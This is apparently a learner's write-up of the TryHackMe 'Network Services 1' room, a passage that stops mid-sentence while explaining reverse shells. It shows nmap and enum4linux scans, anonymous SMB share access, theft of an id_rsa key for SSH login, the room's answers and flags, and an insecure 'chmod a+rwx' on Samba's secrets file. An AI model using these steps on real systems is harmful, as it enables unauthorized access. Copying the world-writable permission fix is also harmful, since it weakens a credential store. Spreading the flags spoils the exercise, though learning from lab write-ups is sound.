



# Network Services 1

## Task 1: Get Connected

Hello and welcome!

This room will explore common Network Service vulnerabilities and
misconfigurations, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for
this room. If you think you'll need some help with this, try completing the
['Linux Fundamentals' Module](https://tryhackme.com/module/linux-fundamentals)

1. Connect to the TryHackMe OpenVPN Server (See <https://tryhackme.com/access> for help!)
2. Make sure you're sitting comfortably, and have a cup of Tea, Coffee or Water close!

Now, let's move on!

N.B. This is not a room on WiFi access hacking or hijacking, rather how to gain
unauthorized access to a machine by exploiting network services.
If you are interested in WiFi hacking, I suggest checking out
[WiFi Hacking 101 by NinjaJc01](https://tryhackme.com/room/wifihacking101)

***Answer the questions below***

Ready? Let's get going!

*Solution:* Connect to Tryhackme through OpenVPN as described in above link.
No need to start AttackBox, since I'll be using my own PC connected to Tryhackme.
Then start machine in each task.

***Correct answer: No answer needed***

## Task 2: Understanding SMB

### What is SMB?

SMB - Server Message Block Protocol - is a client-server communication protocol used for
sharing access to files, printers, serial ports and other resources on a network.
[source](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol)

Servers make file systems and other resources (printers, named pipes, APIs) available to
clients on the network. Client computers may have their own hard disks,
but they also want access to the shared file systems and printers on the servers.

The SMB protocol is known as a response-request protocol, meaning that it transmits
multiple messages between the client and server to establish a connection. Clients
connect to servers using TCP/IP (actually NetBIOS over TCP/IP
as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

### How does SMB work?


Once they have established a connection, clients can then send commands (SMBs) to the
server that allow them to access shares, open files, read and write files, and generally
do all the sort of things that you want to do with a file system.
However, in the case of SMB, these things are done over the network.

### What runs SMB?

Microsoft Windows operating systems since Windows 95 have included client
and server SMB protocol support. Samba, an open source server
that supports the SMB protocol, was released for Unix systems.

***Answer the questions below***

What does SMB stand for?

***Correct answer: Server Message Block***

What type of protocol is SMB?

***Correct answer: response-request***

What protocol suite do clients use to connect to the server?

***Correct answer: TCP/IP***

What systems does Samba run on?

***Correct answer: Unix***

## Task 3: Enumerating SMB

### Lets Get Started

Before we begin, make sure to deploy the room and give it some time to boot.
Please be aware, this can take up to five minutes so be patient!

### Enumeration

Enumeration is the process of gathering information on a target
in order to find potential attack vectors and aid in exploitation.

This process is essential for an attack to be successful, as wasting time with exploits
that either don't work or can crash the system can be a waste of energy. Enumeration can
be used to gather usernames, passwords, network information, hostnames, application data,
services, or any other information that may be valuable to an attacker.

### SMB

Typically, there are SMB share drives on a server that can be connected to and used to
view or transfer files. SMB can often be a great starting point for an
attacker looking to discover sensitive information,
you'd be surprised what is sometimes included on these shares.

### Port Scanning

The first step of enumeration is to conduct a port scan, to find out as
much information as you can about the services, applications,
structure and operating system of the target machine.

If you haven't already looked at port scanning, I recommend checking out the
[Nmap room here](https://tryhackme.com/room/furthernmap).

### Enum4Linux

Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. It
is basically a wrapper around the tools in the Samba package and makes it easy to quickly
extract information from the target pertaining to SMB. It's already installed on the
AttackBox, however if you need to install it on your own attacking machine,
you can do so from the official [Github](https://github.com/portcullislabs/enum4linux).

The syntax of Enum4Linux is nice and simple: "`enum4linux [options] ip`"

|TAG|FUNCTION|
|:-|:-|
|-U|get userlist|
|-M|get machine list|
|-N|get namelist dump (different from -U and-M)|
|-S|get sharelist|
|-P|get password policy information|
|-G|get group and member list|
|-a|all of the above (full basic enumeration)|

Now we understand our enumeration tools, let's get started!

***Answer the questions below***

Conduct an **nmap** scan of your choosing, How many ports are open?

*Solution:*

```bash
❯ export ip=10.10.215.31
❯ nmap $ip -vvv
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-22 11:53 +03
Initiating Ping Scan at 11:53
Scanning 10.10.215.31 [2 ports]
Completed Ping Scan at 11:53, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:53
Completed Parallel DNS resolution of 1 host. at 11:53, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:53
Scanning 10.10.215.31 [1000 ports]
Discovered open port 445/tcp on 10.10.215.31
Discovered open port 22/tcp on 10.10.215.31
Discovered open port 139/tcp on 10.10.215.31
Completed Connect Scan at 11:53, 3.18s elapsed (1000 total ports)
Nmap scan report for 10.10.215.31
Host is up, received conn-refused (0.096s latency).
Scanned at 2025-05-22 11:53:51 +03 for 3s
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds
```

***Correct answer: 3***

What ports is **SMB** running on? Provide the ports in ascending order.

*Solution:*

SMB requires different network ports on a machine to enable communications with other
systems. SMB originally ran on top of NetBIOS, which uses port 139. NetBIOS is an older
transport layer which allows computers to talk to each other on the network. The SMB
protocol runs on port 445, but may rely on NetBIOS to communicate with
old devices that do not support the direct hosting of SMB over TCP/IP.

***Correct answer: 139/445***

Let's get started with Enum4Linux, conduct a full basic enumeration.
For starters, what is the **workgroup** name?

*Solution:*

I am using the improved version of Enum4Linux,
on [Github](https://github.com/cddmp/enum4linux-ng/)
This changes the flag from `-a` to `-A`.

```bash
❯ enum4linux-ng.py $ip -A
ENUM4LINUX - next generation (v1.3.4)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.215.31
[*] Username ......... ''
[*] Random Username .. 'wvremhel'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.10.215.31    |
 =====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.215.31    |
 ===========================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- POLOSMB         <00> -         B <ACTIVE>  Workstation Service
- POLOSMB         <03> -         B <ACTIVE>  Messenger Service
- POLOSMB         <20> -         B <ACTIVE>  File Server Service
- ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
- WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
- MAC Address = 00-00-00-00-00-00

 =========================================
|    SMB Dialect Check on 10.10.215.31    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: true
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ===========================================================
|    Domain Information via SMB session for 10.10.215.31    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: POLOSMB
NetBIOS domain name: ''
DNS domain: ''
FQDN: polosmb
Derived membership: workgroup member
Derived domain: unknown

 =========================================
|    RPC Session Check on 10.10.215.31    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'wvremhel', password ''
[H] Rerunning enumeration with user 'wvremhel' might give more results

 ===================================================
|    Domain Information via RPC for 10.10.215.31    |
 ===================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 ===============================================
|    OS Information via RPC for 10.10.215.31    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.7.6-Ubuntu)
OS version: '6.1'
OS release: ''
OS build: '0'
Native OS: Windows 6.1
Native LAN manager: Samba 4.7.6-Ubuntu
Platform id: '500'
Server type: '0x809a03'
Server type string: Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)

 =====================================
|    Users via RPC on 10.10.215.31    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[+] Found 0 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 0 user(s) via 'enumdomusers'

 ======================================
|    Groups via RPC on 10.10.215.31    |
 ======================================
[*] Enumerating local groups
[+] Found 0 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 0 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 0 group(s) via 'enumdomgroups'

 ======================================
|    Shares via RPC on 10.10.215.31    |
 ======================================
[*] Enumerating shares
[+] Found 4 share(s):
IPC$:
  comment: IPC Service (polosmb server (Samba, Ubuntu))
  type: IPC
netlogon:
  comment: Network Logon Service
  type: Disk
print$:
  comment: Printer Drivers
  type: Disk
profiles:
  comment: Users profiles
  type: Disk
[*] Testing share IPC$
[-] Could not check share: STATUS_OBJECT_NAME_NOT_FOUND
[*] Testing share netlogon
[-] Share doesn't exist
[*] Testing share print$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share profiles
[+] Mapping: OK, Listing: OK

 =========================================
|    Policies via RPC for 10.10.215.31    |
 =========================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:
  Password history length: None
  Minimum password length: 5
  Maximum password age: 49710 days (136 years) 6 hours 21 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: false
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: 49710 days (136 years) 6 hours 21 minutes

 =========================================
|    Printers via RPC for 10.10.215.31    |
 =========================================
[+] No printers returned (this is not an error)

Completed after 19.61 seconds
```

***Correct answer: WORKGROUP***

What comes up as the **name** of the machine?

***Correct answer: POLOSMB***

What operating system **version** is running?

***Correct answer: 6.1***

What share sticks out as something we might want to investigate?

***Correct answer: profiles***

## Task 4: Exploiting SMB

### Types of SMB Exploit

While there are vulnerabilities such as
[CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
that can allow remote code
execution by exploiting SMB, you're more likely to encounter a situation where the best
way into a system is due to misconfigurations in the system. In this case, we're going to
be exploiting anonymous SMB share access- a common misconfiguration that can allow us to
gain information that will lead to a shell.

### Method Breakdown

So, from our enumeration stage, we know:

- The SMB share location
- The name of an interesting SMB share

### SMBClient

Because we're trying to access an SMB share, we need a client to access resources on
servers. We will be using SMBClient because it's part of the default samba suite. While
it’s already installed on the AttackBox, if you do need to install it on your own
attacking machine, you can find the documentation here.

We can remotely access the SMB share using the syntax:

```bash
smbclient //[IP]/[SHARE]
```

Followed by the tags:

```bash
-U [name] # to specify the user
-p [port] # to specify the port
```

Got it? Okay, let's do this!

***Answer the questions below***

What would be the correct syntax to access an SMB share called "secret"
as user "suit" on a machine with the IP 10.10.10.2 on the default port?

***Correct answer: smbclient //10.10.10.2/secret -U suit -P 445***

Great! Now you've got a hang of the syntax, let's have a go at trying to
exploit this vulnerability. You have a list of users,
the name of the share (smb) and a suspected vulnerability.

***Correct answer: No answer needed***

Lets see if our interesting share has been configured to allow anonymous access,
i.e. it doesn't require authentication to view the files. We can do this easily by:

- using the username "Anonymous"
- connecting to the share we found during the enumeration stage
- and not supplying a password.

Does the share allow anonymous access? Y/N?

*Solution:* I had some problems with Samba.

I had to change permissions of `/var/lib/samba/private/secrets.tdb` with:

```bash
sudo chmod a+rwx /var/lib/samba/private/secrets.tdb
```

Then it complained that `secrets.ldb` is missing, so I copied it:

```bash
sudo cp /var/lib/samba/private/secrets.tdb /var/lib/samba/private/secrets.ldb
```

Then use the following syntax, and use `ls` to look around:

```bash
❯ export ip=10.10.12.218
❯ smbclient //$ip/profiles -U Anonymous # do not add the -P 445 here! Does not work.
smb: \> ls
  .                                   D        0  Tue Apr 21 14:08:23 2020
  ..                                  D        0  Tue Apr 21 13:49:56 2020
  .cache                             DH        0  Tue Apr 21 14:08:23 2020
  .profile                            H      807  Tue Apr 21 14:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 14:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 14:08:23 2020
  .viminfo                            H      947  Tue Apr 21 14:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 14:08:23 2020
  .ssh                               DH        0  Tue Apr 21 14:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 14:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 14:08:23 2020

    12316808 blocks of size 1024. 7584052 blocks available
```

***Correct answer: Y***

Great! Have a look around for any interesting documents that could contain
valuable information. Who can we assume this profile folder belongs to?

*Solution:*

```bash
smb: \> more "Working From Home Information.txt"
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager 

/tmp/smbmore.iqqVTz (END)
```

***Correct answer: John Cactus***

What service has been configured to allow him to work from home?

***Correct answer: ssh***

Okay! Now we know this, what directory on the share should we look in?

***Correct answer: .ssh***

This directory contains authentication keys that allow a user to authenticate
themselves on, and then access, a server. Which of these keys is most useful to us?

*Solution:*

```bash
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 14:08:23 2020
  ..                                  D        0  Tue Apr 21 14:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 14:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 14:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 14:08:23 2020
```

***Correct answer: id_rsa***

Download this file to your local machine, and change the permissions to
"600" using "`chmod 600 [file]`".

Now, use the information you have already gathered to work out the username
of the account. Then, use the service and key to log-in to the server.

What is the `smb.txt` flag?

*Solution:* To find username, look at `id_rsa.pub`

```bash
smb: \.ssh\> more id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
/tmp/smbmore.PP9BYc (END)
```

To log-in, download the private key

```bash
smb: \.ssh\> get id_rsa
```

then exit SMB with `exit`.

Then change permissions

```bash
❯ chmod 600 id_rsa
```

Then use SSH:

```bash
❯ ssh cactus@$ip -i id_rsa
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 31 09:26:13 UTC 2025

  System load:  0.0                Processes:           95
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 35%                IP address for ens5: 10.10.12.218
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ more smb.txt
THM{smb_is_fun_eh?}
cactus@polosmb:~$
```

***Correct answer: THM{smb_is_fun_eh?}***

## Task 5: Understanding Telnet

### What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client,
to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will
then become a virtual terminal- allowing you to interact with the remote host.

### Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in
many applications and services, Telnet has been replaced by SSH in most implementations.

### How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering
"`telnet`" into a command prompt. The user then executes commands on the server by using
specific Telnet commands in the Telnet prompt. You can connect to a telnet
server with the following syntax: "`telnet [ip] [port]`"

***Answer the questions below***

What is Telnet?

***Correct answer: Application protocol***

What has slowly replaced Telnet?

***Correct answer: ssh***

How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

***Correct answer: telnet 10.10.10.3 23***

The lack of what, means that all Telnet communication is in plaintext?

***Correct answer: Encryption***

## Task 6: Enumerating Telnet

### Lets Get Started

Before we begin, make sure to deploy the room and give it some time to boot.
Please be aware, this can take up to five minutes so be patient!

### Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network
service. However, vulnerabilities that could be potentially trivial to exploit don't
always jump out at us. For that reason, especially when it comes to
enumerating network services, we need to be thorough in our method.

### Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information
as we can about the services, applications, structure and operating
system of the target machine. Scan the machine with `nmap`.

### Output

Let's see what's going on on the target server...

***Answer the questions below***

How many ports are open on the target machine?

*Solution:* My target machine's IP is 10.10.234.88.

```bash
❯ export ip=10.10.234.88
# (Adding the -p- flag means all ports get checked instead of just the first 1000, 
# the -T5 flag makes the process quite a bit quicker).
❯ nmap $ip -p- -vv -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-01 10:13 +03
Initiating Ping Scan at 10:13
Scanning 10.10.234.88 [2 ports]
Completed Ping Scan at 10:13, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:13
Completed Parallel DNS resolution of 1 host. at 10:13, 0.03s elapsed
Initiating Connect Scan at 10:13
Scanning 10.10.234.88 [65535 ports]
Warning: 10.10.234.88 giving up on port because retransmission cap hit (2).
Connect Scan Timing: About 7.55% done; ETC: 10:20 (0:06:20 remaining)
Connect Scan Timing: About 15.33% done; ETC: 10:19 (0:05:37 remaining)
Connect Scan Timing: About 23.12% done; ETC: 10:19 (0:05:03 remaining)
Connect Scan Timing: About 32.64% done; ETC: 10:20 (0:04:41 remaining)
Connect Scan Timing: About 40.56% done; ETC: 10:20 (0:04:03 remaining)
Connect Scan Timing: About 48.07% done; ETC: 10:20 (0:03:32 remaining)
Connect Scan Timing: About 56.22% done; ETC: 10:19 (0:02:56 remaining)
Connect Scan Timing: About 64.45% done; ETC: 10:19 (0:02:21 remaining)
Connect Scan Timing: About 71.65% done; ETC: 10:19 (0:01:53 remaining)
Discovered open port 8012/tcp on 10.10.234.88
Connect Scan Timing: About 79.87% done; ETC: 10:19 (0:01:20 remaining)
Connect Scan Timing: About 87.50% done; ETC: 10:19 (0:00:49 remaining)
Completed Connect Scan at 10:20, 407.30s elapsed (65535 total ports)
Nmap scan report for 10.10.234.88
Host is up, received conn-refused (0.10s latency).
Scanned at 2025-06-01 10:13:15 +03 for 407s
Not shown: 46076 closed tcp ports (conn-refused), 19458 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON
8012/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 407.46 seconds
```

***Correct answer: 1***

What port is this?

***Correct answer: 8012***

This port is unassigned, but still lists the protocol it's using,
what protocol is this?

***Correct answer: tcp***

Now re-run the nmap scan, without the -p- tag, how many ports show up as open?

*Solution:*

```bash
❯ nmap $ip -vv -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-01 10:21 +03
Initiating Ping Scan at 10:21
Scanning 10.10.234.88 [2 ports]
Completed Ping Scan at 10:21, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:21
Completed Parallel DNS resolution of 1 host. at 10:21, 0.02s elapsed
Initiating Connect Scan at 10:21
Scanning 10.10.234.88 [1000 ports]
Warning: 10.10.234.88 giving up on port because retransmission cap hit (2).
Completed Connect Scan at 10:21, 8.50s elapsed (1000 total ports)
Nmap scan report for 10.10.234.88
Host is up, received conn-refused (0.11s latency).
Scanned at 2025-06-01 10:21:33 +03 for 9s
All 1000 scanned ports on 10.10.234.88 are in ignored states.
Not shown: 634 closed tcp ports (conn-refused), 366 filtered tcp ports (no-response)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.74 seconds
```

***Correct answer: 0***

Here, we see that by assigning telnet to a non-standard port, it is not part of the
common ports list, or top 1000 ports, that nmap scans. It's important to try every angle
when enumerating, as the information you gather here will inform your exploitation stage.

***Correct answer: No answer needed***

Based on the title returned to us, what do we think this port could be used for?

*Solution:* Focus on a single port, output it to a text file:

```bash
❯ nmap $ip -p 8012 -v -A -T4 -oN nmap.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-01 10:58 +03
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:58
Completed NSE at 10:58, 0.00s elapsed
Initiating NSE at 10:58
Completed NSE at 10:58, 0.00s elapsed
Initiating NSE at 10:58
Completed NSE at 10:58, 0.00s elapsed
Initiating Ping Scan at 10:58
Scanning 10.10.234.88 [2 ports]
Completed Ping Scan at 10:58, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:58
Completed Parallel DNS resolution of 1 host. at 10:58, 0.03s elapsed
Initiating Connect Scan at 10:58
Scanning 10.10.234.88 [1 port]
Discovered open port 8012/tcp on 10.10.234.88
Completed Connect Scan at 10:58, 0.07s elapsed (1 total ports)
Initiating Service scan at 10:58
Scanning 1 service on 10.10.234.88
Completed Service scan at 11:00, 159.06s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.234.88.
Initiating NSE at 11:00
Completed NSE at 11:00, 0.16s elapsed
Initiating NSE at 11:00
Completed NSE at 11:00, 1.16s elapsed
Initiating NSE at 11:00
Completed NSE at 11:00, 0.00s elapsed
Nmap scan report for 10.10.234.88
Host is up (0.072s latency).

PORT     STATE SERVICE VERSION
8012/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.94SVN%I=7%D=6/1%Time=683C0817%P=x86_64-pc-linux-gnu%r(
SF:NULL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20comma
SF:nds\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20t
SF:o\x20view\x20commands\n")%r(GetRequest,2E,"SKIDY'S\x20BACKDOOR\.\x20Typ
SF:e\x20\.HELP\x20to\x20view\x20commands\n")%r(HTTPOptions,2E,"SKIDY'S\x20
SF:BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(RTSPReques
SF:t,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands
SF:\n")%r(RPCCheck,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20vi
SF:ew\x20commands\n")%r(DNSVersionBindReqTCP,2E,"SKIDY'S\x20BACKDOOR\.\x20
SF:Type\x20\.HELP\x20to\x20view\x20commands\n")%r(DNSStatusRequestTCP,2E,"
SF:SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r
SF:(Help,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20comm
SF:ands\n")%r(SSLSessionReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x2
SF:0to\x20view\x20commands\n")%r(TerminalServerCookie,2E,"SKIDY'S\x20BACKD
SF:OOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(TLSSessionReq,2
SF:E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n"
SF:)%r(Kerberos,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\
SF:x20commands\n")%r(SMBProgNeg,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HEL
SF:P\x20to\x20view\x20commands\n")%r(X11Probe,2E,"SKIDY'S\x20BACKDOOR\.\x2
SF:0Type\x20\.HELP\x20to\x20view\x20commands\n")%r(FourOhFourRequest,2E,"S
SF:KIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(
SF:LPDString,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20
SF:commands\n")%r(LDAPSearchReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HEL
SF:P\x20to\x20view\x20commands\n")%r(LDAPBindReq,2E,"SKIDY'S\x20BACKDOOR\.
SF:\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(SIPOptions,2E,"SKIDY
SF:'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(LAND
SF:esk-RC,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20com
SF:mands\n")%r(TerminalServer,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\
SF:x20to\x20view\x20commands\n")%r(NCP,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x
SF:20\.HELP\x20to\x20view\x20commands\n");

NSE: Script Post-scanning.
Initiating NSE at 11:00
Completed NSE at 11:00, 0.00s elapsed
Initiating NSE at 11:00
Completed NSE at 11:00, 0.00s elapsed
Initiating NSE at 11:00
Completed NSE at 11:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.86 seconds
```

***Correct answer: a backdoor***

Who could it belong to? Gathering possible usernames is an important step in enumeration.

***Correct answer: SKIDY***

Always keep a note of information you find during your enumeration stage,
so you can refer back to it when you move on to try exploits.

***Correct answer: No answer needed***

## Task 7: Exploiting Telnet

### Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about
earlier. It lacks encryption, so sends all communication over plaintext, and for the most
part has poor access control. There are CVE's for Telnet client and
server systems, however, so when exploiting you can check for those on:

- <https://www.cvedetails.com/>
- <https://cve.mitre.org/>

A CVE, short for Common Vulnerabilities and Exposures, is a list of
publicly disclosed computer security flaws. When someone refers to a CVE,
they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet
has been configured or is operating that will allow you to exploit it.

### Method Breakdown

So, from our enumeration stage, we know:

- There is a poorly hidden telnet service running on this machine
- The service itself is marked "backdoor"
- We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port,
and using that as a foothold to get a full reverse shell on the machine!

### Connecting to Telnet

You can connect to a telnet server with the following syntax:

```bash
"telnet [ip] [port]"
```

We're going to need to keep this in mind as we try and exploit this machine.

### What is a Reverse Shell?



A "shell" can simply be described as a piece of code or program
which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target
